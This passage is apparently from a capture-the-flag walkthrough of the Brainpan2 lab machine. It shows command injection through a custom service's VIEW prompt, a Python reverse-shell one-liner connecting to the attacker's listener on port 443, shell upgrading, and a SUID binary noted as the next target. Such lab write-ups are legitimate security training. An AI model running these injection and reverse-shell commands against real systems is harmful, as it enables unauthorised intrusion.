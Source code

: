 ```bash
    TYPE "TELL ME MORE" FOR A LIST OF COMMANDS.  
                             *  *  *  *                                
                          >> TELL ME MORE 
    FILES    HELP    VIEW       CREATE
    USERS    MSG     SYSTEM     BYE
```
So some of these commands are disabled or in development still, there are some files sitting around we can look at with VIEW and we can also use the CREATE command. Reading one of the files "brainpan.txt" mentions a debug account which we can login with but doesn't give us anything. Eventually we try adding a ; id into each command and it works on VIEW.
```bash
                          >> VIEW
    ENTER FILE TO DOWNLOAD: blah ; id 
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
```
From this we can get a shell easily as the anansi user with python or netcat:

```bash
                          >> VIEW                  
    ENTER FILE TO DOWNLOAD: blah ; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.147.161",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@sushi:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.147.161] from (UNKNOWN) [192.168.147.175] 48111
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
$ 
```
We can upgrade the shell and now start to look around...there seems to be a SUID binary "msg_root" in another users reynard's home folder and some stuff  in /opt to check out.
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'    
anansi@brainpan2:/opt$ ls -lAhr
ls -lAhr
total 8.0K
drwx------ 3 root  root  4.0K Nov  4  2013 old
drwxrwxrwt 2 root  root  4.0K Jun  4 15:23 brainpan
anansi@brainpan2:/opt$ cd /opt/old
cd /opt/old
bash: cd: /opt/old: Permission denied
anansi@brainpan2:/opt$ ls -lah /home/reynard
ls -lah /home/reynard
total 44K
drwxr-xr-x 3 reynard reynard 4.0K Nov  7  2013 .
drwxr-xr-x 5 root    root    4.0K Nov  4  2013 ..
-rw------- 1 reynard reynard    0 Nov  7  2013 .bash_history
-rw-r--r-- 1 reynard reynard  220 Nov  4  2013 .bash_logout
-rw-r--r-- 1 reynard reynard 3.4K Nov  4  2013 .bashrc
-rwsr-xr-x 1 root    root    8.8K Nov  6  2013 msg_root
-rw-r--r-- 1 reynard reynard  675 Nov  4  2013 .profile
-rw-r--r-- 1 reynard reynard  154 Nov  5  2013 readme.txt
-rwxr-xr-x 1 reynard reynard  137 Nov  4  2013 startweb.sh
drwxr-xr-x 3 reynard reynard 4.0K Nov  4  2013 web
anansi@brainpan2:/opt$ /home/reynard/msg_root
/home/reynard/msg_root
usage: msg_root username message
```
Based on the previous Brainpan1 machine and the red herring binary on the webserver exploiting this thing somehow might be the way forward I'm guessing...
```
```